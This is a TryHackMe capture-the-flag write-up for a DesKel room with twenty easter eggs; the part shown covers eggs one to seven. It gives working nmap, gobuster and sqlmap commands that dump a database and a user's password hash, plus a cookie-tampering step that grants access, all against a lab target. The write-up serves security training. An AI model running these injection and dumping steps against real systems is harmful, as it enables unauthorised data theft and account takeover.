 <img width="466" alt="banner" src="https://github.com/Th3l3mic/WriteUps/assets/167564930/b4e79fb0-cd41-4824-9543-bec3bccac452">
<p></p>
-------------------------------------------------
<p></p>
Welcome to another THM writeup. This room was designed by <a href="https://tryhackme.com/p/DesKel">DesKel</a> for sharpening our CTF's skillz. We must find all 20 easter eggs. So let's get starter!

First run our nmap scan.
<code> nmap -A -T5 -p- targetIP</code>
<p></p>
Result's states that there's only two port's open:
<code>
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 1b:c2:b6:2d:fb:32:cc:11:68:61:ab:31:5b:45:5c:f4 (DSA)
|   2048 8d:88:65:9d:31:ff:b4:62:f9:28:f2:7d:42:07:89:58 (RSA)
|_  256 40:2e:b0:ed:2a:5a:9d:83:6a:6e:59:31:db:09:4c:cb (ECDSA)
80/tcp open  http    Apache httpd 2.2.22 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/VlNCcElFSWdTQ0JKSUVZZ1dTQm5JR1VnYVNCQ0lGUWdTU0JFSUVrZ1p5QldJR2tnUWlCNklFa2dSaUJuSUdjZ1RTQjVJRUlnVHlCSklFY2dkeUJuSUZjZ1V5QkJJSG9nU1NCRklHOGdaeUJpSUVNZ1FpQnJJRWtnUlNCWklHY2dUeUJUSUVJZ2NDQkpJRVlnYXlCbklGY2dReUJDSUU4Z1NTQkhJSGNnUFElM0QlM0Q=
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: 360 No Scope!
</code>
<p></p>
Let's go to our browser. On port 80 we saw a little-bit wacky page - so here we must find all the egg's.

<h2>Egg 1</h2>
Hint: check the robots


<img width="960" alt="robots xtx" src="https://github.com/Th3l3mic/WriteUps/assets/167564930/693f25fa-a6b5-40bc-b43f-8e17c6f5dd74">
<p></p>
After decoding hex vaules we've got first flag!

<h2>Egg 2</h2>
Hint: Decode the base64 multiple times. Don’t forget there are something being encoded.
According to hint, we must decode b64 value that we foud in robots.txt after decoding we receive: "DesKel_secret_base", that looks like directory. Let;s go to that page and we've got the second egg!
<p></p>
<h2>Egg 3</h2>
Hint: Directory buster with common.txt might help.
<p></p>
For this task I've used gobuster:

<code>gobuster dir -u http://TargetIP -w /user/share/wordlists/dirb/common.txt</code>
Gobuster found /login directory that conyains our third egg!

<h2>Egg 4</h2>
Hint: time-based sqli

It sound like task for SqlMap! First let's intercept POST request in Burp suite and save it as xml file, next we'll use SqlMap:
<code>sqlmap -r OurRequest.xml --current-db</code>

After finding out what our databes is called, we try to read the tables:
<code>sqlmap -r OurRequest.xml -D THM_f0und_m3 --tables</code>

we've got two tables:

<code>
Database: THM_f0und_m3
[2 tables]
+----------------+
| user           |
| nothing_inside |
+----------------+
</code>
we must go deeper:
<code>sqlmap -r OurRequest.xml -D THM_f0und_m3 -T nothing_inside --columns</code>
result:
<code>
Database: THM_f0und_m3
Table: nothing_inside
[1 column]
+----------+-------------+
| Column   | Type        |
+----------+-------------+
| Easter_4 | varchar(30) |
+----------+-------------+
</code>
Finally we've got the fourth egg!
<code>sqlmap -r OurRequest.xml -D THM_f0und_m3 -T nothing_inside -C Easter_4 --sql-query "select Easter_4 from nothing_inside"</code>


<h2>Egg 5</h2>
Hint: Another sqli

<code>sqlmap -r OurRequest.xml -D THM_f0und_m3 -T user --columns</code>
<code>
Database: THM_f0und_m3
Table: user
[2 columns]
+----------+-------------+
| Column   | Type        |
+----------+-------------+
| password | varchar(40) |
| username | varchar(30) |
+----------+-------------+
</code>

<code>sqlmap -r OurRequest.xml-D THM_f0und_m3 -T user -C username,password --sql-query "select username,password from user"</code>

<code>select username,password from user [2]:
[*] DesKel, 05f3672ba34409136aa71b8d00070d1b
[*] Skidy, He is a nice guy, say hello for me</code>

After quick goole search we've got hash value and DesKel password! So let's login and receive egg 5!


<h2>Egg 6</h2>
Hint: Look out for the response header.

We could use Burp suite ora curl:
<code> curl -s 10.10.141.149 -D header.txt<.code>
Easy!

<h2>Egg 7</h2>
Hint: Cookie is delicious
![cookie](https://github.com/Th3l3mic/WriteUps/assets/167564930/b278ceb5-ae63-449b-8d1a-6c5868f2d731)

As we intercept our request in Burp we can see tha thereś a cookie anmed Invited set to value 0, letś modify this and set it to 1. It's look's like we've got 7th egg!


